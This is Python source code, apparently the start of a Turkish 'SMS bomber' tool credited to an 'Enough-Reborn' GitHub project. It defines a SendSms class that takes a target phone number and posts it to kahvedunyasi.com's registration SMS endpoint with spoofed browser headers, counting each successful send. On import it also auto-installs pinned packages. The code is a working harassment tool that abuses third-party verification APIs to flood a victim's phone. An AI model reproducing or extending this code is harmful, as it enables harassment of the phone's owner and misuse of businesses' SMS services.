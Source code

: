 #Credits : https://github.com/tingirifistik/Enough-Reborn
import subprocess, sys, os

try:
    import requests, urllib3, uuid, colorama
except ImportError:
    print("Gerekli modüller indiriliyor...")
    subprocess.check_call([sys.executable, "-m", "pip", "install", "urllib3==1.26.13", "uuid==1.30", "colorama==0.3.9", "requests==2.31.0"])
finally:
    import concurrent.futures, json, os, random, requests, string, time, urllib, urllib3, uuid

from colorama import Fore, Style
from time import sleep
from os import system
from concurrent.futures import ThreadPoolExecutor, wait
import requests
from random import choice
from string import ascii_lowercase
from colorama import Fore, Style
import requests, urllib3, uuid
import requests
from random import choice
from string import ascii_lowercase
from colorama import Fore, Style
import requests, urllib3, uuid


class SendSms():
    adet = 0
    
    def __init__(self, phone, mail):
        self.phone = str(phone)
        if len(mail) != 0:
            self.mail = mail
        else:
            self.mail = ''.join(choice(ascii_lowercase) for i in range(20))+"@gmail.com"


    #kahvedunyasi.com
    def KahveDunyasi(self):    
        try:    
            url = "https://core.kahvedunyasi.com:443/api/users/sms/send"
            headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0", "Accept": "application/json, text/plain, */*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Page-Url": "/kayit-ol", "Content-Type": "application/json;charset=utf-8", "Positive-Client": "kahvedunyasi", "Positive-Client-Type": "web", "Store-Id": "1", "Origin": "https://www.kahvedunyasi.com", "Dnt": "1", "Sec-Gpc": "1", "Referer": "https://www.kahvedunyasi.com/", "Sec-Fetch-Dest": "empty", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Site": "same-site", "Te": "trailers", "Connection": "close"}
            json={"mobile_number": self.phone, "token_type": "register_token"}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> core.kahvedunyasi.com")
                self.adet += 1
            else:
                raise
        except:    
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> core.kahvedunyasi.com")
        